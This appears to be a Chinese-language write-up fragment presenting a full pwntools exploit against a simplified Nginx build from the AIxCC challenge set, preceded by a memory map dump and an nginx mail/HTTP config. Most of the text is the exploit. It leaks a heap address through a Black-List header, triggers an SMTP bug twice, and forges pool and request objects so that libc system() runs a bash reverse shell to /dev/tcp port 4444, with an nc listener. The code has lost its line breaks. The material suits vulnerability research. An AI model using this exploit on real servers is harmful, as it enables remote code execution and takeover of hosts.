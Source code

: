 ```
0x000075feb7000000 0x000075feb7800000 0x0000000000800000 rw- 0x000075feb7800000 0x000075feb789d000 0x000000000009d000 r-- /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.330x000075feb789d000 0x000075feb79e5000 0x0000000000148000 r-x /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.330x000075feb79e5000 0x000075feb7a6c000 0x0000000000087000 r-- /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.330x000075feb7a6c000 0x000075feb7a77000 0x000000000000b000 r-- /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.330x000075feb7a77000 0x000075feb7a7a000 0x0000000000003000 rw- /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.330x000075feb7a7a000 0x000075feb7a7e000 0x0000000000004000 rw- 0x000075feb7b17000 0x000075feb7b27000 0x0000000000010000 r-- /usr/lib/x86_64-linux-gnu/libm.so.60x000075feb7b27000 0x000075feb7ba6000 0x000000000007f000 r-x /usr/lib/x86_64-linux-gnu/libm.so.60x000075feb7ba6000 0x000075feb7bfe000 0x0000000000058000 r-- /usr/lib/x86_64-linux-gnu/libm.so.60x000075feb7bfe000 0x000075feb7bff000 0x0000000000001000 r-- /usr/lib/x86_64-linux-gnu/libm.so.60x000075feb7bff000 0x000075feb7c00000 0x0000000000001000 rw- /usr/lib/x86_64-linux-gnu/libm.so.60x000075feb7c00000 0x000075feb7c28000 0x0000000000028000 r-- /usr/lib/x86_64-linux-gnu/libc.so.60x000075feb7c28000 0x000075feb7db0000 0x0000000000188000 r-x /usr/lib/x86_64-linux-gnu/libc.so.60x000075feb7db0000 0x000075feb7dff000 0x000000000004f000 r-- /usr/lib/x86_64-linux-gnu/libc.so.60x000075feb7dff000 0x000075feb7e03000 0x0000000000004000 r-- /usr/lib/x86_64-linux-gnu/libc.so.60x000075feb7e03000 0x000075feb7e05000 0x0000000000002000 rw- /usr/lib/x86_64-linux-gnu/libc.so.6
```  
  
  
使用类似这样的配置文件（从 Nginx AIxCC 简化）：  
  
```
remote_adminoff;events {}mail {    auth_http http://127.0.0.1:1025;    xclientoff;    timeout3600s;    server {        listen2525;        protocol smtp;        smtp_authnone;    }}http {    large_client_header_buffers44096;    server {        listen       127.0.0.1:8080;        server_name  localhost;        location /host_specs {            return200"Host Specifications:\n$host_specs";        }    }}
```  
  
  
在 Ubuntu 24.04 中测试的完整漏洞如下：  
  
```
import socketfrom pwn import *libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)host = '127.0.0.1'leak_vuln_trigger = b'GET /host_specs HTTP/1.1\r\nHost: localhost\r\nConnection: Close\r\n\r\n'vuln_trigger = b'NOOP f f f f f f f f f f f\r\n'deftcp_conn(host, port):    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    s.connect( (host, port) )    return sdefread_data(s):    return s.makefile(mode='rb').read()# 1. Leak using CPV11s = tcp_conn(host, 8080)payload = b'GET /host_specs HTTP/1.1' + b'\r\n'payload += b'Host: localhost' + b'\r\n'payload += b'Connection: Close' + b'\r\n'payload += b'Black-List: 111.111.111.111;222.222.222.222;333.333.333.333;' + b'\r\n'payload += b'\r\n's.send(payload)s.send(leak_vuln_trigger)response1 = read_data(s)# print(response1)leak = u64(response1.split(b'111.111.111.111')[1][0:6] + b'\0\0')log.info(f'Leaked address = {hex(leak)}')page_base = leak - 0x41d0a0log.info(f'Page base = {hex(page_base)}')# guess (we can change it to brute force wisely)heap_address = page_base + 0x423000libc.address = page_base + 0xc00000log.info(f'Pool address = {hex(heap_address)}')log.info(f'LIBC address = {hex(libc.address)}')# 2. Trigger the CPV17 vuln twices = tcp_conn(host, 2525)s.send(vuln_trigger)s.close()s = tcp_conn(host, 2525)s.send(vuln_trigger)s.close()log.info('Execute: nc -lvnp 4444')pause()# 3. Overwrite a part of the pool object and the HTTP request objects = tcp_conn(host, 8080)request_line_base_len = len(b'GET / HTTP/1.1\r\n')request_line = b'GET /' + b'A' * (0x400 - request_line_base_len) + b' HTTP/1.1\r\n'# +0x88 : srv_conf# +0xc8 : header_in# +0x470 : post_subrequestpayload = b'bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"\0'request_headers = b''.join((    p64(0x1337) * ((0x50) // 8),    payload,    b'A' * (0x88 - 0x50 - len(payload)),    p64(heap_address + 0x88), # srv_conf (whatever pointed X if X+0x90 is a valid address)    b'B' * (0xc8 - 0x88 - 0x8),    p64(heap_address + 0xc8), # headers_in.pos (whatever, eg. itself)    p64(heap_address + 0xd0), # headers_in.last (greater than .pos)    p64(0x1338) * ((0x470 - 0xc8 - 0x10) // 8),    p64(heap_address + 0x470 + 0x8), # fake post_subrequest    p64(libc.sym['system']),    p64(0x1337),))payload = request_line + request_headers + b'\r\n\r\n's.send(payload)response2 = read_data(s)print(response2)s.close()
```  
  